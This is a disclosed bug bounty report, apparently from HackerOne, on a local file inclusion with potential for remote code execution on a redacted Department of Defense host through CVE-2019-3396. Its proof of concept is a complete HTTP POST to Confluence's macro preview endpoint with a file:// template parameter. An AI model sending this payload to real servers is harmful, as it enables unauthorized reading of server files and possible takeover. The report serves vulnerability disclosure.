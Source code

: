# LFI with potential to RCE on ██████ using CVE-2019-3396

## Report Details
- **Report ID**: 538771
- **URL**: https://hackerone.com/reports/538771
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-04-15T19:06:19.917Z
- **Disclosed**: 2019-10-04T15:17:21.382Z

## Reporter
- **Username**: nahamsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
#POC

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: ██████
Content-Type: application/json
Content-Length: 174

{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.youtube.com/watch?v=wHEHYJpCkpg","width":"300","height":"200","_template":"file://../"}}}
```

Thanks,
Ben

## Impact

#

## Attachments
No attachments
